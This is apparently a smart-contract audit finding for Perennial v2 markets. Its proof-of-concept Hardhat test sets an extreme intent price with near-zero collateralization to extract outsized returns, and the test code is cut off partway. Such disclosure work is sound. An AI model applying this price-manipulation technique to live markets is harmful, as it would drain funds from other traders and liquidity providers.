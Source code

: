 The following example demonstrates that specifying a very large `intent.price` with a very small collateral
generating a very large return to collateral

add to `/perennial-v2/packages/perennial/test/unit/market/Market.test.ts`

```js
        it('test_intent_price', async () => {
          factory.parameter.returns({
            maxPendingIds: 5,
            protocolFee: parse6decimal('0.50'),
            maxFee: parse6decimal('0.01'),
            maxFeeAbsolute: parse6decimal('1000'),
            maxCut: parse6decimal('0.50'),
            maxRate: parse6decimal('10.00'),
            minMaintenance: parse6decimal('0.01'),
            minEfficiency: parse6decimal('0.1'),
            referralFee: parse6decimal('0.20'),
            minScale: parse6decimal('0.001'),
          })

          const marketParameter = { ...(await market.parameter()) }
          marketParameter.takerFee = parse6decimal('0.01')
          await market.updateParameter(marketParameter)

          const riskParameter = { ...(await market.riskParameter()) }
          await market.updateRiskParameter({
            ...riskParameter,
            takerFee: {
              ...riskParameter.takerFee,
              linearFee: parse6decimal('0.001'),
              proportionalFee: parse6decimal('0.002'),
              adiabaticFee: parse6decimal('0.004'),
            },
          })
          const test_price = '1250000000000';
          const SETTLEMENT_FEE = parse6decimal('0.50')
          const intent: IntentStruct = {
            amount: POSITION.div(2),
            price: parse6decimal(test_price),
            fee: parse6decimal('0.5'),
            originator: liquidator.address,
            solver: owner.address,
            collateralization: parse6decimal('0.01'),
            common: {
              account: user.address,
              signer: liquidator.address,
              domain: market.address,
              nonce: 0,
              group: 0,
              expiry: 0,
            },
          }

          await market
            .connect(userB)
            ['update(address,uint256,uint256,uint256,int256,bool)'](userB.address, POSITION, 0, 0, COLLATERAL, false)

          await market
            .connect(user)
            ['update(address,uint256,uint256,uint256,int256,bool)'](user.address, 0, 0, 0, COLLATERAL, false)
          await market
            .connect(userC)
```